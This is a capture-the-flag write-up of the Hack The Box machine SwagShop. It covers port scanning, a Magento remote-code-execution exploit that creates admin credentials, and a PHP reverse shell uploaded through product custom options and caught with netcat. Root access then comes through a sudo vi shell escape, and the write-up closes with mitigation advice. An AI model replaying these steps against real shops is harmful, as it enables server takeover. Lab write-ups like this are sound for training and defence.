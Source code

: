 # SwagShop

```
kali@kali:~/htb/SwagShop$ sudo nmap -p- -sV -sC 10.129.1.182
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-03 17:09 EST
Nmap scan report for 10.129.1.182
Host is up (0.028s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://swagshop.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.05 seconds
```

I check out the webpage and I'm greeted with a shop built on Magento.

```
kali@kali:~/htb/SwagShop$ searchsploit magento
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                            |  Path
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
eBay Magento 1.9.2.1 - PHP FPM XML eXternal Entity Injection                                                              | php/webapps/38573.txt
eBay Magento CE 1.9.2.1 - Unrestricted Cron Script (Code Execution / Denial of Service)                                   | php/webapps/38651.txt
Magento 1.2 - '/app/code/core/Mage/Admin/Model/Session.php?login['Username']' Cross-Site Scripting                        | php/webapps/32808.txt
Magento 1.2 - '/app/code/core/Mage/Adminhtml/controllers/IndexController.php?email' Cross-Site Scripting                  | php/webapps/32809.txt
Magento 1.2 - 'downloader/index.php' Cross-Site Scripting                                                                 | php/webapps/32810.txt
Magento < 2.0.6 - Arbitrary Unserialize / Arbitrary Write File                                                            | php/webapps/39838.php
Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution                                                              | php/webapps/37811.py
Magento eCommerce - Local File Disclosure                                                                                 | php/webapps/19793.txt
Magento eCommerce - Remote Code Execution                                                                                 | xml/webapps/37977.py
Magento Server MAGMI Plugin - Multiple Vulnerabilities                                                                    | php/webapps/35996.txt
Magento Server MAGMI Plugin 0.7.17a - Remote File Inclusion                                                               | php/webapps/35052.txt
Magento WooCommerce CardGate Payment Gateway 2.0.30 - Payment Process Bypass                                              | php/webapps/48135.php
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I check out the RCE exploit, and it looks promising.

It requires a target, and an admin directory. I don't find one in /admin/, but index.php/admin reveals a login page.

```
kali@kali:~/htb/SwagShop$ python exploit.py 
WORKED
Check http://swagshop.htb/admin with creds forme:forme
kali@kali:~/htb/SwagShop$ 
```

And now I can log in with forme:forme. Nice.

I look around for a while, and find some options that reduce security such as symlink enabling. So I enable that while I'm there.

I look around at the products and see that there are a lot of options for editing. So I go to custom, and I can see that I can upload files here.

I add a custom file rule, and add php to the list of allowed extensions.

I go to the store and add some products to my shopping cart as well as add my reverse shell php file.

After I add them, I get a link to the file here:

`http://swagshop.htb/index.php/sales/download/downloadCustomOption/id/7/key/80fbc00f0773d0e59c4e/`

Clicking on it gives me a download option. Which I don't want.

I run a wfuzz command and immediately find media:

```
kali@kali:~/htb/SwagShop$ sudo wfuzz -c -L --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://swagshop.htb/FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://swagshop.htb/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                    
=====================================================================

000000001:   200        327 L    904 W      16593 Ch    "# directory-list-2.3-medium.txt"                                                          
000000003:   200        327 L    904 W      16593 Ch    "# Copyright 2007 James Fisher"                                                            
000000007:   200        327 L    904 W      16593 Ch    "# license, visit http://creativecommons.org/licenses/by-sa/3.0/"                          
000000014:   200        327 L    904 W      16593 Ch    "http://swagshop.htb/"                                                                     
000000009:   200        327 L    904 W      16593 Ch    "# Suite 300, San Francisco, California, 94105, USA."                                      
000000006:   200        327 L    904 W      16593 Ch    "# Attribution-Share Alike 3.0 License. To view a copy of this"                            
000000002:   200        327 L    904 W      16593 Ch    "#"                                                                                        
000000004:   200        327 L    904 W      16593 Ch    "#"                                                                                        
000000013:   200        327 L    904 W      16593 Ch    "#"                                                                                        
000000012:   200        327 L    904 W      16593 Ch    "# on atleast 2 different hosts"                                                           
000000011:   200        327 L    904 W      16593 Ch    "# Priority ordered case sensative list, where entries were found"                         
000000010:   200        327 L    904 W      16593 Ch    "#"                                                                                        
000000008:   200        327 L    904 W      16593 Ch    "# or send a letter to Creative Commons, 171 Second Street,"                               
000000005:   200        327 L    904 W      16593 Ch    "# This work is licensed under the Creative Commons"                                       
000000080:   200        21 L     115 W      1917 Ch     "media"   
```

and I find my file at `http://swagshop.htb/media/custom_options/quote/s/h/80fbc00f0773d0e59c4ec56e454437ea.php`


And on our listener:

```
kali@kali:~/htb/SwagShop$ sudo nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.1.182 36302
Linux swagshop 4.4.0-146-generic #172-Ubuntu SMP Wed Apr 3 09:00:08 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 23:14:01 up  9:29,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```


I elevate my shell with `script /dev/null -c bash`, ctrl+Z to bg the process, `stty raw -echo`, `fg` to foreground, `reset`, and `xterm`.

I then `export TERM=xterm;export SHELL=bash`

Now I have a nice shell to work with.

```
www-data@swagshop:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@swagshop:/$ sudo -l 
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
www-data@swagshop:/$ 
```

immediately I find that we have some root priveleges. I know for sure vim can be used to run an elevated shell. Not sure with vi.

```
www-data@swagshop:/var/www/html$ sudo /usr/bin/vi /var/www/html/index.php

/// IN VI ///
:!/bin/bash
/////////////

root@swagshop:/var/www/html# whoami
root
root@swagshop:/var/www/html# 
```

And there we go :)

## Comparing myself to the official writeup:


The official writeup used magescan to scan the website, which is a new tool for me.

They use the same rce code I used.

They then use the other RCE exploit manually to get code execution via requests.

They also highlight another outdated way which uploads a malicious package to the magenta server.

They run the same command I did with vi to get root. But they add the command like this:

`sudo /usr/bin/vi /var/www/html/index.php -c ':!/bin/bash'`

cool, I didn't know I could add commands like that.

## How to stop this exploit:

This mostly comes down to two things. An insecure version of magento that allows the attacker to get access to the server.

And a misconfigured server, which allows the attacker to elevate priviliges easily.


Updating Magento should suffice, and then remove the sudo vi access for the www-data user.








